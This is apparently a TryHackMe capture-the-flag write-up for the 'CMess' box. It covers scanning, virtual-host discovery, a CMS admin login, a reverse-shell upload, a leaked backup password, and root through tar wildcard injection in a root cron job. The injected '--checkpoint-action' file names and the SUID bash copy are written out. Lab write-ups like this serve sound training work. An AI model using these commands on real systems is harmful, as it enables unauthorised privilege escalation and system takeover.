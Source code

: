 This was a medium level challenge on TryHackMe.

Started off with the traditional Nmap scan

```diff
nmap 10.10.102.218 -T4 -A -p- -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 05:49 EDT                                                                                                                                                                          
Nmap scan report for cmess.thm (10.10.102.218)                                                                                                                                                                                              
Host is up (0.32s latency).                                                                                                                                                                                                                 
Not shown: 65533 closed tcp ports (reset)                                                                                                                                                                                                   
PORT   STATE SERVICE VERSION                                                                                                                                                                                                                
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                                                                                                           
| ssh-hostkey:                                                                                                                                                                                                                              
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)                                                                                                                                                                              
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)                                                                                                                                                                             
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)                                                                                                                                                                           
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                                                                         
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).                                                                                                                                                                         
| http-robots.txt: 3 disallowed entries                                                                                                                                                                                                     
|_/src/ /themes/ /lib/
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/19%OT=22%CT=1%CU=44588%PV=Y%DS=5%DC=T%G=Y%TM=66C3
OS:1937%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(S
OS:P=106%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)SEQ(SP=106%GCD=2%ISR=10A%TI=Z%CI
OS:=I%II=I%TS=8)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST
OS:11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=
OS:68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   248.89 ms 10.17.0.1
2   ... 4
5   389.48 ms cmess.thm (10.10.102.218)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1008.27 seconds

```

Nothing interesting here except for the open web port. I navigated to the website and looked around, found nothing except for a admin and login page asking for Email and password. Tried to reset the password, but no luck there either as it was again asking for Email ID.

Went ahead with directory busting, but again no luck there.
```diff
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cmess.thm/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                                                                                                 
________________________________________________                                                                                                                                                                                            
                                                                                                                                                                                                                                            
                       [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 370ms]
 directory-list-2.3-medium.txt [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 615ms]
01                      [Status: 200, Size: 4078, Words: 431, Lines: 103, Duration: 551ms]
1                       [Status: 200, Size: 4078, Words: 431, Lines: 103, Duration: 948ms]
login                   [Status: 200, Size: 1580, Words: 377, Lines: 42, Duration: 338ms]
category                [Status: 200, Size: 3862, Words: 522, Lines: 110, Duration: 1195ms]
about                   [Status: 200, Size: 3353, Words: 372, Lines: 93, Duration: 8921ms]
 license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 9091ms]
search                  [Status: 200, Size: 3851, Words: 522, Lines: 108, Duration: 9678ms]
 Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 9746ms]
 Copyright 2007 James Fisher [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 9749ms]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 315ms]
feed                    [Status: 200, Size: 735, Words: 37, Lines: 22, Duration: 1738ms]
index                   [Status: 200, Size: 3851, Words: 522, Lines: 108, Duration: 4607ms]
                       [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 5410ms]
 Priority ordered case sensative list, where entries were found  [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 5411ms]
                       [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 5572ms]
0                       [Status: 200, Size: 3851, Words: 522, Lines: 108, Duration: 5521ms]
 Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 5574ms]
 on atleast 2 different hosts [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 5574ms]
                       [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 6054ms]
                        [Status: 200, Size: 3865, Words: 522, Lines: 108, Duration: 6053ms]

```
At this point I was a bit stuck, However an error message in the my ffuf result said "on atleast 2 different hosts". This got me thinking if there was a Virtual host somewhere behind.

Now I used to FFUF once again for hunting the vhost.
```diff
└─# ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cmess.thm/  -H "Host: FUZZ.cmess.thm" -fw 522                                                                                             

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 522
________________________________________________

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31, Duration: 619ms]

```

Now we have to add dev.cmess.thm to /etc/host. Then, Navigating to the http://dev.cmess.thm gave us access to the development logs, where we can get the Mail ID and password. Now using this Mail ID and password we can login to http://cmess.thm/admin. Now we can upload a .phtml reverse shell to the CMS and open up a netcat listener in our host machine. 

This gives us shell to a low level user. The permissions of this user is very restricted to lets try to elevate to different user. I looked for standard privilege escalation signs but found none. With a little bit of help from linpeash.sh, I found /opt/.password.bak. After catting it I got

```diff

cat /opt/.password.bak
cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
```
Now I tried to ssh into the target as ander with the newly found password.

Now for further privilege escalation. I looked around for sudo access and SUID permission but no luck. Then I cat out the contents of /etc/crontab

```diff
cat /etc/crontab 
 # /etc/crontab: system-wide crontab
 # Unlike any other crontab you don't have to run the `crontab'
 # command to install the new version when you edit this file
 # and files in /etc/cron.d. These files also have username fields,
 # that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

 # m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *

```
We have a wildcard usage in a cronjob run by root. We can leverage this to gain root by doing the following.

```diff
echo "cp /bin/bash /tmp/bash; chmod +s  /tmp/bash" >> /home/andre/backup/runme.sh
chmod +x /home/andre/backup/runme.sh 
touch /home/andre/backup/--checkpoint=1
touch /home/andre/backup/--checkpoint-action=exec=sh\runme.sh

```

So, what we are doing is creating a script which copies /bin/bash to tmp/bash with SUID permissions. Making the script executable. Then we are creating a file named --checkpoint=1 in /home/andre/backup which is the directory mentioned in the cron job to run tar. --checkpoint=1 is a functionality in tar which set it as a checkpoint. The next file "--checkpoint-action=exec=sh\ runme.sh" tells tar to execute an action when that checkpoint is reached, the action being running the script to move bash.

Now wait for a while, once the cronjob is triggered our script will execute and we can find bash in /tmp. Once bash is copied to /tmp, we should run
```diff
$/tmp/bash -p
bash-4.3# whoami
root

``

And we have root!!
